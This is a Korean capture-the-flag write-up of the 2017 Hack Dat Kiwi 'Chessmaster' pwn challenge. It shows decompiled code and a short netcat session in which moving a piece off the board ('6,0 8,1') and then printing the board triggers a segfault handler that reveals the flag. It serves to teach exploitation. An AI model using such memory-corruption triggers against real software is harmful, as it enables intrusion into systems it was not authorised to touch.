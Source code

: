 # [2017_Hack_Dat_Kiwi] \[PWN] Chessmaster

## Analysis

```c
void __fastcall __noreturn handler(int a1)
{
  int c; // [rsp+14h] [rbp-Ch]
  _IO_FILE *fp; // [rsp+18h] [rbp-8h]

  if ( a1 == 11 )
  {
    printf("Flag is: ");
    fp = fopen("flag-half.txt", "r");
    if ( fp )
    {
      while ( 1 )
      {
        c = _IO_getc(fp);
        if ( c == -1 )
          break;
        putchar(c);
      }
      fclose(fp);
    }
    else
    {
      puts("Could not open file");
    }
  }
  exit(0);
}
```

handler라는 함수에서 플래그를 출력해줍니다.

아래 코드를 보면 알겠지만 handler 함수는 memory corruption이 일어날 때 트리거됩니다.

```c
void __noreturn sub_40219A()
{
  __int64 coordinates; // [rsp+0h] [rbp-60h]
  __int64 v1; // [rsp+8h] [rbp-58h]
  char v2; // [rsp+10h] [rbp-50h]
  int (*print_board)(); // [rsp+50h] [rbp-10h]
  int mv_input; // [rsp+5Ch] [rbp-4h]

  signal(11, (__sighandler_t)handler);
  puts("Welcome. This is a super chess where pieces are swapped instead of removed.");
  puts("Turns will toggle between white and black.\nThe following input formats are accepted:");
  puts("  9: print board\n  777: exit\n  x,y u,w: move piece at x,y to u,w\nGood luck!\n-----------");
  print_board = print_board_401053;
  board_status_604180 = (__int64)&v2;
  sub_40113A("  9: print board\n  777: exit\n  x,y u,w: move piece at x,y to u,w\nGood luck!\n-----------", handler);
  print_board();
  while ( 1 )
  {
    while ( 1 )
    {
      if ( turn_604168 == 1 )
        printf("WHITE: ");
      else
        printf("BLACK: ");
      putchar(10);
      mv_input = input_401E3A(&coordinates);
      if ( mv_input )
        break;
      puts("Invalid move input");
    }
    if ( mv_input == 2 )
    {
      ((void (__fastcall *)(__int64 *))print_board)(&coordinates);
    }
    else
    {
      if ( mv_input == 3 )
      {
        puts("GG");
        exit_402431(0LL);
      }
      if ( mv_input == -1 )
        exit_402431(0LL);
      if ( (unsigned int)move_401782(coordinates, v1) )
      {
        puts("Ok!");
        turn_604168 = turn_604168 != 1;
      }
      else
      {
        puts("No!");
      }
    }
  }
}
```

바이너리를 분석해서 crash를 발생시켜야 합니다.

```
Welcome. This is a super chess where pieces are swapped instead of removed.
Turns will toggle between white and black.
The following input formats are accepted:
  9: print board
  777: exit
  x,y u,w: move piece at x,y to u,w
Good luck!
-----------
  01234567
7 rhbqkbhr
6 pppppppp
5 ........
4 ........
3 ........
2 ........
1 PPPPPPPP
0 RHBQKBHR
WHITE: 
```

프로그램을 실행시키면 위와 같이 체스 보드가 나타나게 됩니다. (하지만 저는 체스의 룰을 모르기 때문에 `PRHBQKBHR`이 무엇을 의미하는지 전혀 몰랐습니다. 문제를 풀고보니 체스의 말이었다는…)

8*8 형식의 보드인데, 이를 벗어나게끔 하여 말을 움직이면 크래시가 발생할 듯 싶었습니다.(저는 로직을 분석하면서 체스의 룰을 알게 되었습니다 ㅂㄷㅂㄷ...)

로직의 조건을 끼워맞춰주면서 6,0에 있는 말을 8,1로 이동시킬 수 있다는 점을 알게 되었습니다. 말을 이동시킨 후, 보드를 출력하면 크래쉬가 발생합니다.

## Exploit

```
# nc 0 2004
Welcome. This is a super chess where pieces are swapped instead of removed.
Turns will toggle between white and black.
The following input formats are accepted:
  9: print board
  777: exit
  x,y u,w: move piece at x,y to u,w
Good luck!
-----------
  01234567
7 rhbqkbhr
6 pppppppp
5 ........
4 ........
3 ........
2 ........
1 PPPPPPPP
0 RHBQKBHR
WHITE: 
6,0 8,1
Ok!
BLACK: 
9
Flag is: Could not open file
```

